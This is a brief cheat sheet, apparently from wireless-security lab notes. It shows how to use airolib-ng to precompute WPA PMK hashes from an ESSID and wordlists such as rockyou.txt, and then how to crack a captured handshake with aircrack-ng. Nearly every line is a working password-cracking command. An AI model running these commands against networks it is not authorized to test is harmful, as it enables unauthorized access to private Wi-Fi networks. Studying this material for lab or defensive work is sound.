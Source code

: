 ## Airolib-ng

Precompute PMK hash for attack

Find ESSID NAME and put it in a text file
```text
echo wifu > essid.txt
```
Create a database
```text
airolib-ng wifu.sqlite --import essid essid.txt
```
Number of passwords stored
```text
airolib-ng wifu.sqlite --stats
```
import passwords
```text
airolib-ng wifu.sqlite --import passwd /usr/share/john/password.lst
airolib-ng wifu.sqlite --import passwd rockyou.txt
```
check if all processed
```text
airolib-ng wifu.sqlite --batch
airolib-ng wifu.sqlite --stats
```

## crack - 23,000 per second!
```text
aircrack-ng -r wifu.sqlite wpa1-01.cap
```
